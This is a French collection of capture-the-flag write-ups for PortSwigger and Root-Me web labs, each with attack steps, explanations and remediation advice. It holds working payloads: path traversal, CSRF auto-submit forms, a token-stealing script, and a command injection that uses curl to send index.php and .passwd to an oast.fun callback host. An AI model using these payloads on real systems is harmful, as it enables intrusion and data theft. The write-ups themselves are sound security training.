# Challenges

---

## Sommaire

- [File path traversal - validation of file extension with null byte bypass](#file-path-traversal---validation-of-file-extension-with-null-byte-bypass)
- [PHP - Filters](#php---filters)
- [CSRF - Contournement de jeton](#csrf---contournement-de-jeton)
- [CSRF where token is not tied to user session](#csrf-where-token-is-not-tied-to-user-session)
- [CSRF where Referer validation depends on header being present](#csrf-where-referer-validation-depends-on-header-being-present)
- [JWT - Jeton révoqué](#jwt---jeton-révoqué)
- [SQL injection - Error](#sql-injection---error)
- [Injection de commande - Contournement de filtre](#injection-de-commande---contournement-de-filtre)
- [XSS - Stockée 2](#xss---stockée-2)
- [Server-side template injection in an unknown language with a documented exploit](#server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)
- [API - Mass Assignment](#api---mass-assignment)

---

## File path traversal - validation of file extension with null byte bypass
[Retour sommaire](#Sommaire)

[https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass](https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass)

### Étapes

1. Aller sur la page détail, mettre burp en intercept, envoyer la requete d'image vers le repeater
2. Changer le chemin par ../../../../etc/passwd

> Attention, comme le precise l'exercice, le serveur fait attention a l'extension, donc rajouter %00.jpg



### Explication

Le site vérifie uniquement l'extension, et ne contrôle pas qu'on sort du dossier du site.

### Recommandations

- Empêcher de pouvoir charger des fichiers hors du dossier du site
- Contrôler les caractères nul (%00, \x00)
- Vérifier le mime-type du fichier chargé, pas uniquement l'extension

### Références

[https://www.cve.org/CVERecord?id=CVE-2002-1031](https://www.cve.org/CVERecord?id=CVE-2002-1031)
[https://www.cve.org/CVERecord?id=CVE-2000-0149](https://www.cve.org/CVERecord?id=CVE-2000-0149)

<br />
<hr style="height: 0; border: 1px white solid;" />
<br />

## PHP - Filters
[Retour sommaire](#Sommaire)

[https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-Filters](https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-Filters)

### Étapes

1. Sur la page d'accueil, dans l'url, ajouter un filtre: `?inc=php://filter/convert.base64-encode/resource=index.php`
2. Changer le nom du fichier par celui qu'on veut récupérer (index.php, ch12.php, config.php...)



Contenu du fichier :

```php
<?php
$username="admin";
$password="DAPt9D2mky0APAF";
```

Ressources : [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Wrappers.md#wrapper-phpfilter](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Wrappers.md#wrapper-phpfilter)

### Explication

PHP Filters permet de manipuler le contenu des fichiers lus via des flux (streams) en appliquant des filtres.
Ici, le filtre `convert.base64-encode` encode le contenu du fichier en base64, permettant de lire des fichiers sensibles.

### Recommandations

- Désactiver les wrappers PHP non nécessaires
- Valider et assainir les entrées utilisateur utilisées dans les chemins de fichiers

### Références

[https://www.php.net/manual/en/filters.convert.php](https://www.php.net/manual/en/filters.convert.php)

<br />
<hr style="height: 0; border: 1px white solid;" />
<br />

## CSRF - Contournement de jeton
[Retour sommaire](#Sommaire)

[https://www.root-me.org/fr/Challenges/Web-Client/CSRF-contournement-de-jeton](https://www.root-me.org/fr/Challenges/Web-Client/CSRF-contournement-de-jeton)

### Étapes

1. S'inscrire (test@test.fr / test)
2. Se login
3. Aller sur profile et récupérer les champs du formulaire
4. Aller sur contact
5. Mettre cette payload dans le form de contact:

```html
<script>
    const xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://challenge01.root-me.org/web-client/ch23/index.php?action=profile', false);
    xhr.send();
    const token = (xhr.responseText.match(/[abcdef0123456789]{32}/))[0];
    console.log(token);

    const formData = new FormData();
    formData.append('username', 'maxim');
    formData.append('status', 'on');
    formData.append('token', token);

    xhr.open('POST', 'http://challenge01.root-me.org/web-client/ch23/index.php?action=profile', false);
    xhr.send(formData);
</script>
```



La payload va chercher le token de l'admin sur son profil quand il sera connecté et autorise le user.
Mdp : DAPt9D2mky0APAF

### Explication

Le token CSRF est prévisible et peut être récupéré via une requête AJAX.
L'attaque CSRF est alors possible en incluant ce token dans la requête malveillante.

### Recommandations

- Ne pas exposer les tokens CSRF dans le code client
- Utiliser des tokens CSRF uniques par session
- Valider l'origine des requêtes via l'en-tête Referer ou Origin

### Références

[https://owasp.org/www-community/attacks/csrf](https://owasp.org/www-community/attacks/csrf)

<br />
<hr style="height: 0; border: 1px white solid;" />
<br />

## CSRF where token is not tied to user session
[Retour sommaire](#Sommaire)

[https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session)

### Étapes

1. Se connecter et regarder le formulaire
2. Aller sur "le serveur d'exploit" (bouton en haut de la page)

Le chall indique : "csrf token non lié à l'utilisateur"
Chaque fois qu'on recharge la page, le token change => supposition : le token est généré par le serveur, il doit avoir un usage unique, et peut-être une date de validité

3. On copie le formulaire :

```html
<form class="login-form" name="emailForm" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <input required type="hidden" name="csrf" value="[le token présent]">
    <button class='button' type='submit'> Update email </button>
</form>
```

4. On le colle dans l'exploit, on rajoute bien l'url dans l'action (ex:https://0abf00c40352c27b813d03a0009b00b0.web-security-academy.net/), on change l'email et on rajoute un script pour l'envoyer automatiquement.

```html
<form class="login-form" name="emailForm" action="https://0abf00c40352c27b813d03a0009b00b0.web-security-academy.net/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="test@taloche.com">
    <input required type="hidden" name="csrf" value="bX6lrxuhzwsPkzc4Y3dVUjLhZ7VY7Cht">
    <button class='button' type='submit'> Update email </button>
</form>

<script>
  document.emailForm.submit();
</script>
```

### Explication

Le token CSRF n'est pas lié à la session utilisateur, il peut être réutilisé par un attaquant pour effectuer des actions au nom de l'utilisateur.

### Recommandations

- Lier les tokens CSRF à la session utilisateur

### Références

[https://portswigger.net/web-security/csrf/bypassing-token-validation#token-not-tied-to-user-session](https://portswigger.net/web-security/csrf/bypassing-token-validation#token-not-tied-to-user-session)

<br />
<hr style="height: 0; border: 1px white solid;" />
<br />

## CSRF where Referer validation depends on header being present
[Retour sommaire](#Sommaire)

[https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present)

### Étapes

1. Se connecter
2. Comme pour les autres challs CSRF, on copie le formulaire de changement d'email, en rajoutant un meta referer never.

```html
<meta name="referrer" content="never">

<form class="login-form" name="loginForm" action="https://0a650008049246378115432a00840003.web-security-academy.net/my-account/change-email" method="POST">
    <label>Email</label>
    <input required="" type="email" name="email" value="someEmail2@email.email">
    <button class="button" type="submit"> Update email </button>
</form>
<script>
  document.loginForm.submit();
</script>
```

### Explication

Le serveur valide la requête en se basant sur la présence de l'en-tête Referer.
Si l'en-tête est absent, la validation échoue, permettant à un attaquant de contourner la protection CSRF.

### Recommandations

- Ne pas se fier uniquement à la présence de l'en-tête Referer pour valider les requêtes

### Références

[https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses#validation-of-referer-depends-on-header-being-present] (https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses#validation-of-referer-depends-on-header-being-present)

<br />
<hr style="height: 0; border: 1px white solid;" />
<br />

## JWT - Jeton révoqué
[Retour sommaire](#Sommaire)

[https://www.root-me.org/fr/Challenges/Web-Serveur/JWT-Jeton-revoque](https://www.root-me.org/fr/Challenges/Web-Serveur/JWT-Jeton-revoque)

### Étapes

1. Requête page d'accueil => repeater
2. POST /login, payload: `{"username":"admin","password":"admin"}` (fourni dans le code source)



3. GET /admin avec JWT de l'admin, message "Token is revoqued"



4. Et en ajoutant un "=" à la signature du token JWT, j'ai reçu le message de réussite. 



### Explication

La vérification de signature tolère un JWT avec padding (=). La liste de révocation compare la chaîne brute, la version modifiée n’est pas reconnue comme révoquée.

### Recommandations

Strip les caractères de padding avant de vérifier les JWT [https://github.com/auth0/node-jws/issues/98](https://github.com/auth0/node-jws/issues/98)

### Références

[https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)

<br />
<hr style="height: 0; border: 1px white solid;" />
<br />

## SQL injection - Error
[Retour sommaire](#Sommaire)

[https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-Error](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-Error)

### Étapes

1. Aller sur l’onglet content. L’URL contient un paramètre `order`.
2. Passer un paramètre invalide (`'` | `"` | `,` | `;`). Le serveur renvoie une erreur sur la page, ce qui permet d’identifier le type de moteur de base de données.\

  

3. Avec Burp, faire une requête avec un paramètre fonctionnel (ex : `order=ASC`)
4. Exporter la requête (clic droit -> "Save item")



5. Dans un terminal : `sqlmap -r rootme-sql-inject-error-based.txt -p order --level=5 --risk=3 --all`


> -r : utilise l’export Burp comme source\
> -p : précise le paramètre vulnérable\
> --all : retourne tout le contenu de la base de données\
> --level et --risk : augmentent la profondeur de la recherche


SQLMap affiche un utilisateur et son mot de passe.



### Explication

Le paramètre `order` est utilisé directement dans une requête SQL sans être filtré.\
En injectant des caractères spéciaux, on peut provoquer des erreurs qui révèlent des informations sur la base de données.

### Recommandations

- Utiliser des requêtes préparées (prepared statements) pour éviter les injections
- Valider et assainir les entrées utilisateur
- Limiter les privilèges de la base de données
- Mettre en place une surveillance des erreurs pour détecter les tentatives d'injection

### Références

[https://owasp.org/www-community/attacks/SQL_Injection](https://owasp.org/www-community/attacks/SQL_Injection)
[https://portswigger.net/web-security/sql-injection](https://portswigger.net/web-security/sql-injection)

<br />
<hr style="height: 0; border: 1px white solid;" />
<br />

## Injection de commande - Contournement de filtre
[Retour sommaire](#Sommaire)

[https://www.root-me.org/fr/Challenges/Web-Serveur/Injection-de-commande-Contournement-de-filtre](https://www.root-me.org/fr/Challenges/Web-Serveur/Injection-de-commande-Contournement-de-filtre)

### Étapes

On dispose d'un formulaire simple avec un seul input permettant de ping une IP.

1. En testant `127.0.0.1`, la réponse est "ping ok".\
  On suppose donc qu'en arrière-plan, la commande éxecutée est: `ping -c 1 127.0.0.1`
  


2. On tente d'injecter : `127.0.0.1; whoami` -> "syntax error".


3. On essaie alors de contourner un éventuel filtre sur `;` en utilisant un retour à la ligne (`%0A`). Là encore, "syntax error".


4. Avec Burp, envoyer la requête dans le repeater.



5. On réessaie avec `%0A` et cette fois, c'est concluant : "ping ok".


6. Puisqu'on peut exécuter d'autres commandes, on suit les instructions du challenge : récupérer `index.php`.
  On utilisera `curl` vers `interactsh` pour exfiltrer le fichier.


7. Toujours depuis le Repeater, on modifie le payload :\
  `ip=127.0.0.1%0Acurl --data-binary @index.php rkiguqojccliuysokkwxsnm2zvs8hm5jd.oast.fun`



Explication des paramètres curl `--data-binary` et `@index.php`:

  - `--data-binary`: Envoie les données **brutes**, sans modification, idéal pour exfiltrer un fichier exactement tel qu'il est.
  - `@index.php`: Lire le fichier et d'envoyer son contenu dans le corps de la requête.\
    
Sur Interactsh, on voit bien le contenu d'`index.php`. Celui-ci indique que le flag se trouve dans `.passwd`.\



8. On répète donc l'opération : `ip=127.0.0.1%0Acurl --data-binary @.passwd rkiguqojccliuysokkwxsnm2zvs8hm5jd.oast.fun`



  Et cette fois : **challenge réussi**, le flag est récupéré !



### Explication

